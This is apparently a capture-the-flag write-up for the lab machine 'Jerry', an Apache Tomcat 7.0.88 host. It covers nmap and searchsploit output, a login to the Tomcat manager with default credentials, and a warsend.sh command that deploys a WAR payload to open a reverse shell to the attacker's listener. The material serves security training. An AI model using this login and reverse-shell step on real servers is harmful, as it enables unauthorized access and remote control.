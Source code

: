 # Jerry

## NMAP

* Nmap result

```console
PORT STATE SERVICE REASON VERSION
8080/tcp open http syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

## Searchsploit

* `searchsploit Tomcat 7.0.88`

```text
------------------------------------------------------------------------------------------------ ---------------------------------

Exploit Title | Path

------------------------------------------------------------------------------------------------ ---------------------------------

Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code | jsp/webapps/42966.py

Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code | windows/webapps/42953.txt

------------------------------------------------------------------------------------------------ ---------------------------------
```

* `Not Vulnerable to CVE-2017-12617`

## Tomcat

* Running Default creds to access the /manage/html endpoint from [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)
* `tomcat:s3cret`

## Shell

* Using [Warsend]([https://github.com/thewhiteh4t/warsend](https://github.com/thewhiteh4t/warsend)) and the above credentials we can get a shell back

```bash
./warsend.sh 10.10.10.10 9001 10.10.10.1 8080 tomcat s3cret revshell
```

![shell](./images/jerry-shell.png)